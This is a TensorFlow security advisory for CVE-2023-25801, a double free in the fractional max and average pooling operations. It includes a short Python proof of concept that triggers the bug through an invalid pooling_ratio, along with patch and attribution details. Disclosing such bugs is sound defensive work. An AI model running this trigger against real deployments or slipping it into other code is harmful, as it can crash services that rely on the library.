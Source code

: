 ## TFSA-2023-003: Double free in Fractional(Max/Avg)Pool

### CVE Number
CVE-2023-25801

### Impact
`nn_ops.fractional_avg_pool_v2` and `nn_ops.fractional_max_pool_v2` require the first and fourth elements of their parameter `pooling_ratio` to be equal to 1.0, as pooling on batch and channel dimensions is not supported.

```python
import tensorflow as tf
import os
import numpy as np
from tensorflow.python.ops import nn_ops
try:
  arg_0_tensor = tf.random.uniform([3, 30, 50, 3], dtype=tf.float64)
  arg_0 = tf.identity(arg_0_tensor)
  arg_1_0 = 2
  arg_1_1 = 3
  arg_1_2 = 1
  arg_1_3 = 1
  arg_1 = [arg_1_0,arg_1_1,arg_1_2,arg_1_3,]
  arg_2 = True
  arg_3 = True
  seed = 341261001
  out = nn_ops.fractional_avg_pool_v2(arg_0,arg_1,arg_2,arg_3,seed=seed,)
except Exception as e:
  print("Error:"+str(e))
```

### Patches
We have patched the issue in GitHub commit [ee50d1e00f81f62a4517453f721c634bbb478307](https://github.com/tensorflow/tensorflow/commit/ee50d1e00f81f62a4517453f721c634bbb478307).

The fix will be included in TensorFlow 2.12. We will also cherrypick this commit on TensorFlow 2.11.1.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability was reported by [dmc1778](https://github.com/dmc1778), of [nimashiri2012@gmail.com](mailto:nimashiri2012@gmail.com).
